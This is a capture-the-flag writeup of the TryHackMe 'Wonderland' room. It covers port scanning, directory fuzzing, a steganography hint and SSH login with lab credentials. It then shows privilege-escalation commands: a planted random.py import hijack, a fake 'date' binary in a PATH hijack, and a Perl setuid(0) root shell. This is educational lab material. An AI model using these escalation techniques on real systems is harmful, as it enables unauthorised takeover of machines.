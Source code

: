 # 🐇 Wonderland CTF — Writeup

**Author:** Viktor Grozdev · **Date solved:** October 20, 2025  
**Target:** `Wonderland` (TryHackMe) — *educational CTF writeup*

[![TryHackMe](https://img.shields.io/badge/TryHackMe-Labs-blue)]()
[![CTF](https://img.shields.io/badge/CTF-Walkthrough-brightgreen)]()

---

## TL;DR — quick story
I found a Go web server and SSH open. A steganography clue in an image pointed me to a nested directory (`/r/a/b/b/i/t`) and to credentials for the `alice` user. From `alice` I abused a misconfigured `sudo` that runs a Python script as `rabbit`. By hijacking imports and PATH (creating `random.py` and a `date` binary) I escalated to `rabbit`, then to `hatter`, and finally used a capability-aware Perl trick to become `root` and capture the flags. 🎩🔐

---

## Why I liked this room
This room is a nice mix of:
- Web & reconnaissance (hidden directories + steg)  
- SSH + credential discovery  
- Creative local privilege escalation via PATH/import hijacking  
- A final capability-based escalation (Perl)  

It’s great for practicing *thinking like the system* — where scripts trust local files or assume safe PATHs.

---

## Table of contents
- [Recon & discovery](#recon--discovery)  
- [Initial access: `alice`](#initial-access-alice)  
- [From `alice` → `rabbit` (sudo import hijack)](#from-alice--rabbit-sudo-import-hijack)  
- [From `rabbit` → `hatter` (PATH hijack)](#from-rabbit--hatter-path-hijack)  
- [Root escalation](#root-escalation)  
- [Commands (collapsed)](#commands-collapsed)  
- [Artifacts & screenshots](#artifacts--screenshots)  
- [Lessons & next steps](#lessons--next-steps)  
- [References](#references)

---

## Recon & discovery
Started with **nmap**:

nmap -Pn -sC -sV <TARGET-IP>

Output:

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu
80/tcp open  http    Golang net/http server
HTTP title: Follow the white rabbit.

Directory fuzzing with gobuster:

gobuster dir -u http://<TARGET-IP> -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 100

Found directories:

/img
/r
/poem

Inside /img:

    alice_door.jpg

    alice_door.png

    white_rabbit_1.jpg

Used StegSeek to extract hidden data:

stegseek white_rabbit_1.jpg
cat white_rabbit_1.jpg.out
# => follow the r a b b i t

The hint pointed towards /r/a/b/b/i/t. Gobuster confirmed the path. The web page source revealed what looked like SSH credentials:

alice:HowDothTheLittleCrocodileImproveHisShiningTail

Initial access — alice

SSH in:

ssh alice@<TARGET-IP>
# password: HowDothTheLittleCrocodileImproveHisShiningTail

Check sudo privileges:

sudo -l

Output:

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py

From alice → rabbit (sudo import hijack)

The Python script /home/alice/walrus_and_the_carpenter.py imported a module without a full path. This allowed creating our own module for privilege escalation.

# random.py
import os
os.system("/bin/bash")

Run as rabbit:

sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py

Now we have a shell as rabbit.
From rabbit → hatter (PATH hijack)

teaParty.py executed date without specifying the full path. Steps to escalate:

# create fake date binary
cat > date <<'EOF'
#!/bin/bash
/bin/bash
EOF

chmod +x date
export PATH=/home/rabbit:$PATH

Run the script — shell now runs as hatter. Found password:

hatter:WhyIsARavenLikeAWritingDesk?

Root escalation

After logging in as hatter with a clean session, I ran linpeas/LinEnum. Capabilities indicated Perl could escalate privileges.

perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# whoami
root

Flags captured:

    user.txt

    root.txt ✅

Commands (collapsed)
<details> <summary>Click to expand main commands</summary>

# nmap
nmap -Pn -sC -sV <TARGET-IP>

# gobuster
gobuster dir -u http://<TARGET-IP> -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 100

# steg
stegseek white_rabbit_1.jpg
cat white_rabbit_1.jpg.out

# SSH initial
ssh alice@<TARGET-IP>

# sudo check
sudo -l

# random.py exploit
cat > random.py <<'PY'
import os
os.system("/bin/bash")
PY
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py

# date PATH hijack
cat > date <<'SH'
#!/bin/bash
/bin/bash
SH
chmod +x date
export PATH=/home/rabbit:$PATH

# Perl root escalation
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
